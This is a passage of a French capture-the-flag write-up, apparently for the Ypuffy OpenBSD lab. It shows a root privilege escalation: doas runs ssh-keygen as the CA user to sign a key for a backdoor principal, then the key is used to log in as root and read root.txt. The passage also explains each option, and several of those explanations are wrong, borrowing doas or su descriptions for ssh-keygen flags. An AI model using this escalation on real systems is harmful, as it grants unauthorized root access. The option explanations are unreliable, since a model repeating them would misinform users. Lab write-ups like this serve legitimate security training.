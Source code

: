     /usr/bin/doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I user_alice1978 -n 3m3rgencyB4ckd00r -V +52w id_rsa
    
L'option -u : 'Permet de spécifier l'utilisateur'<br />
L'option -s : 'Exécutez le shell à partir de SHELL ou de /etc/passwd.'<br />
L'option -I : 'L'expédition du fichier de configuration.'<br />
L'option -n : 'Mode non interactif, échouez si les doas demandent un mot de passe.'<br />
L'option -V : 'L'expiration, donc +52w = 1 an.'<br />

Donc ensuite vous avez juste à chmod le fichier et a vous connectez en tant que root :

    ypuffy$ chmod 600 id_rsa                                                                                                                                            
    ypuffy$ ssh -i id_rsa root@localhost                                                                                
    OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    [...SNIP...]

    ypuffy# cd /root/
    ypuffy# wc -c root.txt
        33 root.txt
